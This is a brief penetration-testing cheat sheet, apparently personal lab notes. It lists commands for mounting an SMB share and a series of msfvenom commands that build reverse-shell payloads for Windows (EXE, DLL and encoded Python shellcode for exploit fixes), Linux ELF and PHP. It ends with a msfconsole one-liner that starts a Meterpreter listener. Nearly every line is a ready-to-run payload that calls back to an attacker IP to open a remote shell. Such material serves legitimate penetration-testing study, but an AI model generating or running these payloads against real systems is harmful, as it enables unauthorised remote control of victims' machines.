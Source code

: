 ```jsx
net use m: \\192.168.49.136\uploads /user:kali kali
```

```jsx
copy test.txt m:\
```

```jsx
ls m:\
```

# msfvenom

## exploit fix

```jsx
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.203 LPORT=443 EXITFUNC=thread -f py –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" --var-name shellcode
```

```jsx
msfvenom -p windows/shell_reverse_tcp LHOST=<Your IP> LPORT=443  EXITFUNC=thread -b '\x00\x1a\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5' x86/alpha_mixed --platform windows -f python
```

## exe/dll

```jsx
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f exe > shell.exe
```

```jsx
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f dll > shell.dll
```

### elf

```jsx
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.168 LPORT=443 -f elf -o sh
```

### php

```jsx
msfvenom -p php/reverse_php -f raw lhost=192.168.45.210 lport=443 > pwn.php
```

## one line handler

```jsx
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.5 LPORT=443 -f exe -o met.exe
```

```jsx
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST $(echo $IP); set LPORT 443; set ExitOnSession false; run -j"
```
